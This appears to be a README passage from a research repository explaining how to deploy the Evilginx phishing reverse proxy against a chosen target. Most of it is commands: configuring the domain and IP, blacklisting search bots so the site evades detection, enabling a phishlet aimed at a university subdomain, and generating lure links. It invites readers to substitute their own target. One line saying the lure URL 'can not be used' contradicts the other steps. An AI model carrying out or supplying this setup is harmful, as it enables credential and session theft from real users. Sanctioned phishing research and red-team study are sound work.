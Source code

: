 #Evilginx

The Evilginx binary was simply run manually within a tmux window to prevent it from exiting upon terminating it's parent SSH session. 

Make sure your configuration file is placed in ./phishlets/configName.yaml, relative to the Evilginx binary itself. The example "fingerprint.yml" configuration can be used by replacing all instances of "fingerprint" or "byu.edu" with your target subdomain and domain respectively, and by replacing "evilginx" with your proxy subdomain. The "path" configuration line determines where the user lands when navigating to the proxy domain. 

Ensure the Evilginx binary is executable:
```
chmod +x evilginx
```

Run the binary to begin configuring it further:
```
sudo evilginx
```

Set up the domain and IP address, then blacklist search bots:
```
config domain <domain>

config ip <IP>

blacklist unauth
```

Set the fingerprint phishlet to use your domain name, then turn it on:  
```
phishlets hostname fingerprint fingerprint.byu.edu

phishlets enable fingerprint
```

This will automatically request an SSL certificate from Let's Encrypt as long as you've done the DNS step properly. 

Now create a lure, or a link that will be used to access the proxy site:  
```
lures create fingerprint

lures edit 0 redirect_url https://fingerprint.byu.edu/wp-admin

lures get-url 0
```

This will return a URL that can not be used to send requests through the proxy!

Evilginx v3.3.0 was used for our data collection. 